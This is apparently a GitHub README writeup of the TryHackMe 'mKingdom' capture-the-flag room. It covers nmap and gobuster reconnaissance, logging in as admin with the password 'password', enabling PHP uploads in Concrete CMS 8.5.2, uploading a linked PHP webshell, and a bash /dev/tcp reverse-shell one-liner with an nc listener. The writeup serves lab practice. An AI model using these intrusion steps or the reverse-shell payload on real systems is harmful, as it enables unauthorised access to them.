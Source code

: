 # mKingdom-THM-writeup
This repository contains a comprehensive writeup for the mKingdom room on TryHackMe, detailing the steps taken to achieve complete ownership of the machine. Below is an overview of the process, including reconnaissance, exploitation, and privilege escalation.



### Start with nmap scan 

```bash
sudo nmap <ip-address>
```

![image](https://github.com/user-attachments/assets/4a0e9e63-3c9a-4e79-8823-51a22a9fe50b)

The Nmap scan for the IP address shows that the host is up with a latency of 0.17 seconds. It has one open port, 85/tcp, which is running the mit-ml-dev service, while 999 other TCP ports are closed.



### Access the webpage on :85

![image](https://github.com/user-attachments/assets/76b1b795-ba4f-43ff-94ad-cec3ca077fab)



### I decided to run gobuster

[Download the wordlist here](https://github.com/digination/dirbuster-ng/blob/master/wordlists/big.txt)

```bash
gobuster dir -u http://<ip-address>:85 -w /home/user/wordlist/dirb/big.txt -x php,html,aspx,jsp
```
![image](https://github.com/user-attachments/assets/27a45576-b71c-41db-8b0a-0e15e5ac6d05)



### I accessed the /app through "http://ip-address/app/" and clicked on jump button which landed on the following page

![image](https://github.com/user-attachments/assets/b5415832-7751-4436-ab28-3a73169f1b62)



### Exploring the Blog page i found a blog posted by the admin

![image](https://github.com/user-attachments/assets/5c237961-e386-4358-ac42-cd425a5c3e00)



### I desided to use admin username and tried to login 

![image](https://github.com/user-attachments/assets/7587ddf2-7ef3-43b4-aca1-d5f35dfdd63e)



### I tried some random passwords and luckily 'password' worked

![image](https://github.com/user-attachments/assets/fb2af502-a03a-474d-b9a3-326c60769fda)



### Admin panel 

![image](https://github.com/user-attachments/assets/22a1f533-3df8-4a8c-9c68-bae1ef1fd7a4)



### This webapp uses Concrete CMS 8.5.2

![image](https://github.com/user-attachments/assets/bc7272bb-4183-4289-867e-cfb683b8391a)

[Get Wappalyzer to detect the technology used](https://chromewebstore.google.com/detail/wappalyzer-technology-pro/gppongmhjkpfnbhagpmjfkannfbllamg)



### There’s an existing RCE vulnerability in Concrete CMS 8.5.2

![image](https://github.com/user-attachments/assets/04043958-d4a9-491f-8e8a-21b3b6372fae)



#### Since I have admin rights i can navigate to System & Settings-> Allowed file types, and add ‘.php’ in the allowed file types

![image](https://github.com/user-attachments/assets/85febb9a-c864-410d-a30e-e4ff7def015d)




### I went to Files -> File Manager and uploaded a php shell file

[I used this reverse shell file](https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php)

![image](https://github.com/user-attachments/assets/53ad07a7-c823-42d5-a0b7-fd53766ebf86)

![image](https://github.com/user-attachments/assets/271795f1-5752-4ad6-a645-94d310b2d40b)



### After clicking on close a prompt will be vivible with the php file link , click on it and open it 

![image](https://github.com/user-attachments/assets/1faeac29-a0a5-4924-95f0-3761e3901a26)



### This utility will be available once you open the link and you can exicute commands straight from it

![image](https://github.com/user-attachments/assets/9e9c3023-c60b-4721-b2d1-03352bfa906f)



### Example

#### Let's run 'ls -la' command

![image](https://github.com/user-attachments/assets/4c722155-70fe-4102-aca6-9c16878166d8)



### Web Shell to Reverse Shell

#### Setup a listener 
```bash
nc -lvnp 1234
```
#### Execute the reverse shell payload
```bash
bash -c 'bash -i >& /dev/tcp/10.17.45.216/1234 0>&1'
```
#### Once you execute the payload you will get the reverse shell in your terminal

![image](https://github.com/user-attachments/assets/0dab0bbc-8306-4198-9ea2-b4b3726cd717)












